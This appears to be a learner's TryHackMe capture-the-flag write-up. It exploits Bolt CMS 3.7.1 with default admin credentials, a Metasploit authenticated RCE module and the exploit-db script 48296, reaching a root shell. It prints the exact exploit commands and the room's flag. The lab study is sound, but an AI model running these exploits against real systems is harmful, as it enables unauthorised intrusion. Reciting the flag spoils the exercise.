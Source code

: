 ## Nmap
```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)

```


### HTTP 8000

1. Found login at `http://10.10.97.103:8000/bolt/login`
cred `bolt:boltadmin123`

we can find the creds at `http://10.10.154.67:8000/`



2. Found version details at bottom left corner
```
bolt 3.7.1
```

3. Used this resource to for manual exploitation guide

`https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/bolt-cms`


4. Tried python script, metasploit exploit and above link method but was failing and got stuck here, will try this again sometime later

### Metasploit method

- searched for bolt cms exploits

```
[msf](Jobs:0 Agents:0) >> search bolt
```

- used this `exploit/unix/webapp/bolt_authenticated_rce`

- set the necessary options 
```
 set LHOST 10.17.24.189
set PASSWORD boltadmin123
set USERNAME bolt
 set RHOSTS 10.10.154.67
 run

```

- We easily get root
```
id
uid=0(root) gid=0(root) groups=0(root)
```

- found the flag at `/home/flag.txt`
```
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```


### Manual exploitation


- using this https://www.exploit-db.com/exploits/48296

- downloaded the file, read the python script and this is a csrf, session attack(little advanced for me but will get back on this)

- ran this command , waited for a minute and got RCE

```
┌─[glack@parrot]─[~/Desktop/THM/bolt]
└──╼ $sudo python3 48296.py http://10.10.154.67:8000 bolt boltadmin123
```